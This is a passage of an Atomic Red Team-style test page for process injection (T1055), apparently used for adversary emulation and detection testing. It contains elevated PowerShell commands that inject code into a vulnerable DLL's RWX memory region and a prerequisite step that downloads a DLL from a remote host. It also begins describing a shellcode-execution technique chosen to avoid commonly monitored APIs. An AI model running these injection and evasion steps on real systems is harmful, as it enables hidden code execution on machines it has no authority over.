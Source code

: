 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$address = (& "$PathToAtomicsFolder\T1055\bin\x64\searchVuln.exe" "$PathToAtomicsFolder\T1055\bin\x64\vuln_dll\" | Out-String | Select-String -Pattern "VirtualAddress: (\w+)").Matches.Groups[1].Value
& "PathToAtomicsFolder\T1055\bin\x64\RWXinjectionLocal.exe" "#{vuln_dll}" $address
```

#### Cleanup Commands:
```powershell
Get-Process -Name Notepad -ErrorAction SilentlyContinue | Stop-Process -Force
```



#### Dependencies:  Run with `powershell`!
##### Description: Utility to inject must exist on disk at specified location (#{vuln_dll})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{vuln_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{vuln_dll}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1055/bin/x64/vuln_dll/msys-2.0.dll" -OutFile "#{vuln_dll}"
```




<br/>
<br/>

## Atomic Test #6 - Process Injection with Go using UuidFromStringA WinAPI
Uses WinAPI UuidFromStringA to load shellcode to a memory address then executes the shellcode using EnumSystemLocalesA.
With this technique, memory is allocated on the heap and does not use commonly suspicious APIs such as VirtualAlloc, WriteProcessMemory, or CreateThread 
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode/tree/master#uuidfromstringa)
- References: 
  - https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
  - https://twitter.com/_CPResearch_/status/1352310521752662018
  - https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala

**Supported Platforms:** Windows


**auto_generated_guid:** 2315ce15-38b6-46ac-a3eb-5e21abef2545



